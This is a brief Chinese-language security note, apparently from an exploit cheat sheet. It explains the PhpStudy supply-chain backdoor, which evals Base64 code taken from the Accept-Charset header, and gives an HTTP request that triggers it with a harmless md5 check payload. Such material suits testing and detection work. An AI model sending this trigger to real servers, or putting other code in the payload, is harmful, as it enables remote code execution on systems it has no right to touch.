 # PHP

## PhpStudy

- **PhpStudy 后门供应链**

后门代码会判断HTTP头的Accept-Encoding字段是否为”gzip,deflate “，如果是就执行这个流程，从Accept-Charset取出来的内容经过Base64解密后，然后eval执行

```http
GET / HTTP/1.1
Accept-Encoding: gzip,deflate
Accept-Charset: ZGllKG1kNSgnSGVsbG9waHBTdHVkeScpKTs=
```


